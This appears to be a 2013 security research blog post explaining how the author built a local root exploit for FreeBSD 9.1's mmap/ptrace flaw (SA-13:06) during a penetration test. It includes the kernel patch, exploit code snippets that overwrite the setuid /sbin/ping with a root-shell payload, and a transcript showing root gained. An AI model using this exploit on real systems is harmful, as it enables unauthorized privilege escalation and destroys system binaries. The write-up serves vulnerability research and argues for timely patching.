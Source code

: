 +++
title = "I feel lucky - or why I wrote a FreeBSD 1-day in one day"
author = "hugsy"
date = 2013-06-20T00:00:00Z
updated = 2013-06-20T00:00:00Z

[taxonomies]
categories = ["research"]
tags = ["freebsd", "1day", "lpe"]
+++

Sometimes life gives you eggs for free, you just need to spend some time making an omelet. That's exactly what happened to me on a recent engagement for a client: a typical PHP webapp full of holes left me with a nice stable shell access.

But at that point I was stuck: I had a limited account (`www`) on this FreeBSD 9.1 (almost) up-to-date box, and interestingly  the privilege separation was done correctly enough to prevent me from getting `root` access simply by abusing the usual suspects (weak FS permission, setuid bins, privileged scripts and the likes).

So it was with little hope I decided to take a look at the [recent advisories for FreeBSD](https://www.freebsd.org/security/advisories/) which I really like because they are well maintained. One title struck my eye immediately: [SA-13:06.mmap - Privilege escalation via `mmap`](https://www.freebsd.org/security/advisories/FreeBSD-SA-13:06.mmap.asc), published the day right before!

I decided to look into it at first with not much hope, thinking the exploit would be crazy hard to trigger and heavily deep inside FreeBSD kernel. The description was actually (on purpose?) quite generic

> Due to insufficient permission checks in the virtual memory system, a tracing process (such as a debugger) may be able to modify portions of the traced process's address space to which the traced process itself does not have write access.

But the [patch](http://security.FreeBSD.org/patches/SA-13:06/mmap.patch) gave me a better idea of the issue:

```patch
Index: sys/vm/vm_map.c
===================================================================
--- sys/vm/vm_map.c	(revision 251636)
+++ sys/vm/vm_map.c	(working copy)
@@ -3761,6 +3761,12 @@ RetryLookup:;
         vm_map_unlock_read(map);
         return (KERN_PROTECTION_FAILURE);
     }
+	if ((fault_typea & VM_PROT_COPY) != 0 &&
+	    (entry->max_protection & VM_PROT_WRITE) == 0 &&
+	    (entry->eflags & MAP_ENTRY_COW) == 0) {
+		vm_map_unlock_read(map);
+		return (KERN_PROTECTION_FAILURE);
+	}

     /*
      * If this page is not pageable, we have to get it for all possible
```

It kindda gave a good pointer of where to start: the usual rule for setuid dictates that a write access should immediately imply losing the elevated privilege. But this is where the bug was: by `mmap` a setuid binary (which any user can do), I can then choose to `ptrace` the process, and use `PT_WRITE` command to overwrite the `mmap`-ed memory, effectively overwriting the setuid binary!

<div markdown="span" class="alert-info"><i class="fa fa-info-circle">&nbsp;Note:</i> I was in a rush, so my exploit is partially destructive as I overwrite directly the setuid binary. If you choose to use it, please make a copy to be able to restore it.</div>

My exploit was in 4 parts:

1. `mmap` the target binary (here I chose `/sbin/ping`)

        :::c
        int fd = open("/sbin/ping", O_RDONLY);
        caddr_t addr = mmap(NULL, LEN, PROT_READ, MAP_SHARED, fd, 0);

2. `fork` to passe to be the `mmap`-ed address to a process I can attach to using `ptrace()`

3. in the parent process, I attach to the child process and then prepare a basic payload to substitute the original code with

        :::c
        if (ptrace(PT_ATTACH, pid, 0, 0) < 0)
        {
            perror("[-] ptrace(PT_ATTACH) failed");
            return;
        }
        [...]
        int fd = open("./sc.c", O_WRONLY|O_CREAT,  S_IRUSR | S_IWUSR | S_IRGRP | S_IWGRP | S_IROTH);
        write(fd,
            "#include <stdio.h>\n"\
            "main(){ "\
            "char* s[]={\"/bin/sh\",NULL};"\
            "setuid(0);execve(s[0],s,0); }\n",
            84);
        close(fd);
        system("gcc -o ./sc ./sc.c");

4. all done, we could now copy our payload 1 DWORD at a time using `ptrace(PT_WRITE_D)`

        :::c
        fd = open("./sc", O_RDONLY);
        while (1) {
            int a;
            int n = read(fd, &a, sizeof(int));
            if (n <= 0) break;
            ptrace(PT_WRITE_D, pid, mmap_setuid_address+i, a);
            i+=n;
        }


Done! Simply execute the target binary to get a root shell.

```shell
 $ id
 uid=1001(user) gid=1001(user) groups=1001(user)
 $ gcc -Wall ./mmap.c && ./a.out
 [+] Saved old '/sbin/ping'
 [+] Using mmap-ed area at 0x281a4000
 [+] Attached to 3404
 [+] Copied 4917 bytes of payload to '/sbin/ping'
 [+] Triggering payload
 $ id
 uid=0(root) gid=0(wheel) egid=1001(user) groups=1001(user),0(wheel)
```

By nature, this exploit is very stable and I was able to report that I had `root` access to my customer :)
I was undeniably lucky to find exactly the privilege escalation I need just exactly when I needed it (kudos to Konstantin Belousov & Alan Cox for the finding), but it also taught me that there can be a huge difference of postponing applying patches, even if for one day...

Cheers mates!

PS: for the full [quick'n dirty exploit](https://gist.github.com/hugsy/5933831)
